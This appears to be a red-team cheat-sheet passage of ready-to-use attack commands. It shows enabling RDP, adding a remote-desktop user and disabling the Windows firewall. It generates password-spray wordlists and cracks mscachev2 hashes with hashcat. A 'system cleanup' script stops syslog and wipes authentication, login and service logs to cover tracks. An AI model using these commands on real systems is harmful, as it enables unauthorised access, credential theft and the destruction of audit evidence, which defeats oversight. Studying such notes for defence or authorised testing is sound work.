 ### Enable RDP:

```
PS > Set-itemproperty 'HKLM:\SYSTEM\CurrentControlSet\Control\Terminal Server\' -Name "fDenyTSConnections" -value 0
PS > Set-ItemProperty 'HKLM:\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp\' -Name "UserAuthentication" -value 1
PS > Enable-NetFirewallRule -DisplayGroup "Remote Desktop"
```

If you need to add your user to the group, you can use: `NET LOCALGROUP "Remote Desktop Users" domain\user /ADD`. And if you need to disable the firewall altogether: `NetSh Advfirewall set allprofiles state off`

## CRACKING <a href="#cracking" id="cracking"></a>

### Password Spray List <a href="#password-spray-list" id="password-spray-list"></a>

Use `exrex` \[[https://github.com/asciimoo/exrex](https://github.com/asciimoo/exrex)] to generate a custom wordlists to password spray with:

```
python exrex.py "(Spring|Winter|Autumn|Fall|Summer|Winter)(20)1[78]!"
```

### Small Wordlist, Rules <a href="#small-wordlist-rules" id="small-wordlist-rules"></a>

I got hit with having to crack mscachev2 hashes which can be slow. This is a perfect time to instead try targeted (small) wordlists and instead pass in some tried-and-tested rules: `hashcat64.exe -a 0 -m 2100 -r rules/d3adhob0.rule mscachev2hash.txt wordlist.txt -o cracked.txt`\


## SYSTEM CLEANUP

### Purge Linux Logs

```bash
#!/bin/sh

/etc/init.d/sysklogd stop
VARLOGS="auth.log boot btmp daemon.log debug dmesg kern.log mail.info mail.log mail.warn messages syslog udev wtmp"
cd /var/log
for ii in $VARLOGS; do
  echo -n > $ii
  rm -f $ii.? $ii.?.gz
done

/etc/init.d/samba stop
rm -f /var/log/samba/*

rm -f /var/lib/dhcp3/*

for ii in /var/log/proftpd/* /var/log/postgresql/* /var/log/apache2/*; do
  echo -n > $ii
done
```
